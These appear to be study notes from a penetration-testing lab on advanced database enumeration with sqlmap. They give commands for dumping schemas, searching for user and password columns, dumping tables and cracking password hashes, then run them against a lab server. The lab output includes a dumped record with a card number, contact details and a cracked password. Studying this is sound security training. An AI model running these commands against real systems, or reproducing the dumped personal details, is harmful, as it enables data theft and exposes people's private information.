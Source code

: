 # Advanced Database Enumeration

DB Schema Enumeration
sqlmap -u "http://www.example.com/?id=1" --schema

Searching for Data
sqlmap -u "http://www.example.com/?id=1" --search -T user

-> Search tables LIKE user

sqlmap -u "http://www.example.com/?id=1" --search -C pass

-> Search columns LIKE pass (password)

Password Enumeration and Cracking
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

-> SQLMap has automatic password hashes cracking capabilities

DB Users Password Enumeration and Cracking
sqlmap -u "http://www.example.com/?id=1" --passwords --batch

## LAB

94.237.62.195:57826
sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --search -C style

Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+

sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --search -T Kimberly

sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --search -T user

Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --search -C pass

Database: testdb
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --dump -D testdb -T users

| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist     

[12:08:58] [INFO] cracked password 'Enizoom1609' for hash 'd642ff0feca378666a8727947482f1a4702deba0'
